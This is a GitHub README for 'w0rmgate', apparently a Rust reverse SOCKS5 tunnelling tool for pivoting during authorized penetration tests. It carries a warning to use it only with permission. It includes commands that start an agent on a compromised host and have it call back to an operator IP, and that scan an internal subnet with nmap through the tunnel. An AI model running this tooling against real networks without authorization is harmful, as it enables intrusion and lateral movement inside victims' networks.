

# w0rmgate

[](https://github.com/grimh3xx/w0rmgate/actions)
[](LICENSE)


**Túnel SOCKS5 reverso em Rust para pivoting em pentest autorizado.** O agente roda
no host comprometido e **liga de volta** ao operador; o operador ganha um proxy
SOCKS5 que sai na rede interna do agente. Resolve o caso clássico em que o alvo
está atrás de NAT/firewall e não aceita conexões de entrada.

<p align="center"></p>

> ## ⚠️ Uso autorizado apenas
> Pivoting dá acesso lateral à rede interna do alvo. Use **somente** em
> ambientes com escopo e **permissão explícita**. A responsabilidade é sua.

## Como funciona

```
operador (você)                         host comprometido
┌─────────────────────┐                 ┌──────────────────┐
│ w0rmgate server     │◄───── liga ─────│ w0rmgate agent   │
│  :7000 controle     │   de volta      │                  │
│  :1080 SOCKS5 ──────┼─ túnel mux ────►│  dial rede interna
└─────────────────────┘                 └──────────────────┘
proxychains / browser ─► 127.0.0.1:1080
```

Multiplexa várias conexões SOCKS sobre um único canal TCP
(frames `[id][kind][len][data]`).

## Uso

No operador:

```sh
w0rmgate server --control 0.0.0.0:7000 --socks 127.0.0.1:1080
```

No host comprometido:

```sh
w0rmgate agent --connect SEU_IP:7000
```

Depois:

```sh
proxychains -q nmap -sT 10.10.20.0/24
curl --socks5-hostname 127.0.0.1:1080 http://interno.local
```

## Build

```sh
cargo build --release
# agente num host Windows:
cargo build --release --target x86_64-pc-windows-gnu
```

## Licença

MIT. Veja [LICENSE](LICENSE).
